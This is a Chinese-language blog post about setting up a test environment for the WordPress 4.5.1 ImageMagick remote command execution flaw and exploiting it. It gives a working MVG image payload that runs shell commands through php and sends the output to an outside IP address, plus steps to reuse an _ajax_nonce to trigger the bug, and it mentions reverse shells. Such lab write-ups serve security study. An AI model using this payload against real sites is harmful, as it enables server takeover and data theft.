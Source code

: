 ```yaml
---
layout: post
title: "Wordpress ImageMagic漏洞测试环境搭建&amp;利用的心路历程"
date: 2016-06-17 17:33:02 +0800
author: tang3
comments: true
categories: 技术
tags: [Web漏洞]
---
```


最近工作上的原因需要搭建一个Wordpress的ImageMagic漏洞环境，搭建过程中遇到了一些头疼的问题，以及对于利用方法的一些思考，在这里总结一下。

## 环境搭建

我使用的是Ubuntu14.04 64位版，使用Ngnix+php5fmp+mysql搭建，Wordpress版本选择的是4.5.1。服务配置这里没什么说的，我们直接来看搭建需要注意的地方。

<!-- more -->

首先Wordpress需要关闭掉自动升级功能，否则被修复到无漏洞版本就尴尬了。在wp-confing.php文件最后添加如下一行代码，然后安装即可。

```php
define('AUTOMATIC_UPDATER_DISABLED',true);
```

后面就是ImageMagic的安装了，Ubuntu默认源中是修复了的版本，所以我们只能去找源码编译。找到合适的源码也是一件很蛋疼的事情，我最后是在[http://www.imagemagick.org/download/releases/](http://www.imagemagick.org/download/releases/)这里找到的版本，不过这里面有的版本在我的环境中编译总是会报错，最终我编译成功的是6.9.0.0这个版本。编译命令如下，需注意要指定一个明确的路径，以便于之后编译php的imagick插件时提供。

```sh
./configure --prefix=/usr/local/imagemagick
make
make install
```

之后下载php的imagick插件源码编译，这里我选择的是3.4.1版本，操作如下：

```sh
wget https://pecl.php.net/get/imagick-3.4.1.tgz
tar -zxvf imagick-3.4.1.tgz 
cd imagick-3.4.1/
phpize
./configure --prefix=/usr/local/imagick --with-php-config=/usr/bin/php-config  --with-imagick=/usr/local/imagemagick
make
make install
```

在php.ini中添加插件so重启php5fpm即可。phpinfo如下图所示：

![phpinfo](/assets/images/2016-06/06-17-phpinfo.png)

## Wordpress ImageMagic漏洞利用

在阅读ricter师傅的[文章](http://ricterz.me/posts/Write%20Up%3A%20Remote%20Command%20Execute%20in%20Wordpress%204.5.1?_=1466130906033)时，自己的理解有些问题，没太搞懂_ajax_nonce的意思，导致在测试漏洞时大部分时间用来找_ajax_nonce了。

通过作者或以上权限，提交一篇文章，并上传一张正常图片，通过编辑图片的功能可以获取该图片的postid，然后上传内容为以下内容的png图片，同样通过编辑图片功能可以获取该图片的postid和_ajax_nonce。

```php
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|php -r "file_get_contents(\"http://172.16.107.144/\".system(\"pwd\"));)'
pop graphic-context
```
这里关于_ajax_nonce的值，我翻看了一下代码，只要我们找到任意的image_editor这个action和恶意图片postid的_ajax_nonce就可以，因为他后台处理只用了这两个值。

![nonce](/assets/images/2016-06/06-17-nonce.png)

然后抓取正常图片任意编辑操作的提交（一般都是imgedit-preview的action），修改_ajax_nonce和post_id为攻击内图片，即可触发漏洞利用。

因为这个漏洞没有回显，所以一遍使用直接反弹shell的方法获取交互，但是由于反弹不是很稳定，这里建议使用上面恶意图片内容中给出的php执行访问自己网站并查看日志的方法来实现简单的交互。